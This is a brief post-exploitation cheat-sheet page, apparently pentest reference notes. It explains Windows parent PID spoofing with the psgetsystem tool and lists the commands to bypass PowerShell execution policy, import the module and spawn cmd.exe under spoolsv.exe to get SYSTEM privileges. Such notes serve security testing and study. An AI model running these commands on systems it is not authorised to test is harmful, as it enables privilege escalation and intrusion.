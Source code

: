 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
---
```

[GitHub - decoder-it/psgetsystem: getsystem via parent process using ps1 & embedded c#](https://github.com/decoder-it/psgetsystem)

Impersonate user via parent process spoofing using ps1 and embedded c#. Parent PID Spoofing can be executed through the [psgetsystem project](https://github.com/decoder-it/psgetsystem) in the following manner.

```
powershell -ep bypass
```
```
Import-Module .\psgetsys.ps1 
```
```
[MyProcess]::CreateProcessFromParent([Process ID of spoolsv.exe],"C:\Windows\System32\cmd.exe","")
```

